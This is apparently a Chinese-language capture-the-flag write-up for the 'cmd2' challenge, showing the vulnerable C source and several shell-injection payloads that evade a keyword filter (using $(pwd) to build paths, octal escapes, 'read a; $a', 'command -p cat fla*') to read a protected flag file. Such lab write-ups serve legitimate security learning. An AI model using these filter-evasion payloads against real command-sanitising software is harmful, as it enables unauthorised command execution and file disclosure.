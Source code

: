 # cmd2
跟cmd1 差不多 但是過濾條件更加嚴格

原本的作法是想要 用$SHELL 去開一個shell 然後 path 沒有被修改過 再去讀flag

但是不行

最後就是 發現 pwd 可以用 所以切到 `/`

拼出 `./home/cmd2/cmd2  '""$(pwd)bin$(pwd)cat $(pwd)home$(pwd)cmd2$(pwd)fl*""'`

要加引號是 因為外面會去掉一層引號去程式裡面  它進去system時 還要引號 like:`system("sh")`

或是 用 sh `echo '\57'` 就會輸出`/`

還有一堆奇淫怪道 https://gist.github.com/dual5651/910a89eabcb471ab3a314ed52a82a5c7
總之這題解法很多

` ./cmd2 "read a; \$a"`

`./cmd2 "command -p cat fla*"`
```=
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "=")!=0;
	r += strstr(cmd, "PATH")!=0;
	r += strstr(cmd, "export")!=0;
	r += strstr(cmd, "/")!=0;
	r += strstr(cmd, "`")!=0;
	r += strstr(cmd, "flag")!=0;
	return r;
}

extern char** environ;
void delete_env(){
	char** p;
	for(p=environ; *p; p++)	memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
	delete_env();
	putenv("PATH=/no_command_execution_until_you_become_a_hacker");
	if(filter(argv[1])) return 0;
	printf("%s\n", argv[1]);
	system( argv[1] );
	return 0;
}

```
